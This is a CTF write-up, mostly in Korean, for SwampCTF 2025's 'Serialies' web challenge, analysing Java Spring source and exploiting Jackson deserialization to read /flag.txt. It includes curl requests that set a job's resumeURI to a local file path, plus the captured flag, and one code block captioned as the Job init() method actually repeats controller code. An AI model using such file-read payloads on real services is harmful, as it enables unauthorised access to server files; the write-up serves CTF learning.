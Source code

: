 # 🐊 SwampCTF 2025 Writeup - [Serialies]

**Category:** [Web]  
**Points:** [20]  
**Tags:** `CTF`, `[Web]`, `swampctf`  

---
## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---

## 🔍 Recon

![문제 웹](./Pasted image 20250403002659.png)
- 문제 웹 페이지와 소스코드 제공됨

---

## 🎯 The Goal

> 플래그를 얻기 위해 해야 할 주요 목표 정리

- [ ] 시스템 정보 수집
- [ ] 역직렬화 + 파일 읽기 취약점 유도

---

## 💉 Exploit

### 🛠️Step 1. 웹 페이지 접속 및 분석

![문제 웹](./Pasted image 20250403002722.png)
```html
<html>
  <body>
    <h1>Whitelabel Error Page</h1>
    <p>
      This application has no explicit mapping for <code>/error</code>,  
      so you are seeing this as a fallback.
    </p>
    <div id="created">Wed Apr 02 02:18:16 UTC 2025</div>
    <div>
      There was an unexpected error (type=Not Found, status=404).
    </div>
  </body>
</html>

```

👉 별다른 정보 없음

### 🛠️Step 2. 소스코드 분석

📁 `\src\main\java\com\serialies\serialies\PersonController.java`
```java
...
@RestController
@RequestMapping("/api/person")
public class PersonController {

    private List<Person> persons = new ArrayList<>();

    @PostMapping
    public String createPerson(@RequestBody Person person) {
        if (person.getAddress() == null) {
            throw new IllegalArgumentException("Address is required");
        }
        if (person.getJob() != null) {
            try {
                person.getJob().init();
            } catch (IOException e) {
                throw new RuntimeException("Error", e);
            }
        }
        persons.add(person);
        return "Person has been created with ID: " + person.getId();
    }

    @GetMapping
    public List<Person> getAllPersons() {
        return persons;
    }

    @GetMapping("/{id}")
    public Person getPersonById(@PathVariable UUID id) {
        Optional<Person> person = persons.stream().filter(p -> p.getId().equals(id)).findFirst();
        if (person.isPresent()) {
            return person.get();
        } else {
            throw new RuntimeException("Person not found with ID: " + id);
        }
    }
}

```

- `/api/person` 경로 확인됨
- `POST` 요청 시 `job.init()` 호출이 핵심
```java
if (person.getJob() != null) {
    person.getJob().init();
}
```
### 🛠️Step 3. /api/person 경로 접속

![문제 웹](./Pasted image 20250403002800.png)

페이지 접속 후 flag 값 획득 가능
하지만 해당 방법으로 푸는 것은 아니라고 판단 후 다시 문제를 확인 

### 🛠️Step 4. PersonController 분석

**POST 요청**
```java
...
@RestController
@RequestMapping("/api/person")
public class PersonController {

    private List<Person> persons = new ArrayList<>();

    @PostMapping
    public String createPerson(@RequestBody Person person) {
        if (person.getAddress() == null) {
            throw new IllegalArgumentException("Address is required");
        }
        if (person.getJob() != null) {
            try {
                person.getJob().init();
            } catch (IOException e) {
                throw new RuntimeException("Error", e);
            }
        }
        persons.add(person);
        return "Person has been created with ID: " + person.getId();
    }
```

**`init()`Job 클래스**
```java
    @GetMapping
    public List<Person> getAllPersons() {
        return persons;
    }

    @GetMapping("/{id}")
    public Person getPersonById(@PathVariable UUID id) {
        Optional<Person> person = persons.stream().filter(p -> p.getId().equals(id)).findFirst();
        if (person.isPresent()) {
            return person.get();
        } else {
            throw new RuntimeException("Person not found with ID: " + id);
        }
    }
}
```

- Job 객체가 `resumeURI` 값을 가지고 있고,
- `init()` 내에서 해당 경로의 파일을 열어봄 → **LFI 가능**

### 🛠️Step 5. Exploit

#### 📨 POST 요청
```
curl -X POST http://chals.swampctf.com:44444/api/person \
  -H "Content-Type: application/json" \
  -d '{
    "id": "11111111-1111-1111-1111-111111111111",
    "address": "somewhere",
    "job": {
      "resumeURI": "/flag.txt"
    }
}'
```

#### 🔎 GET 요청
```
curl http://chals.swampctf.com:44444/api/person/11111111-1111-1111-1111-111111111111
```

![문제 웹](./Pasted image 20250403002852.png)
👉 flag 확인 성공

#### 🛠️ 사용한 도구
  - [ ] curl

---

## 🍪 Info Leakage or Gain

- Java Jackson 기반 역직렬화 취약점
- @class 타입을 안전하지 않게 사용

---

## 👑 Accessing the Flag

```
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}
```

---

## 🧠 Conclusion

- **안전하지 않은 직렬화 방법** + **파일 읽기 취약점**
- JSON을 통해 직렬화된 객체를 그대로 받아들임
- `resumeURI` 값을 기반으로 서버가 **파일 내용을 자동으로 읽음**

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_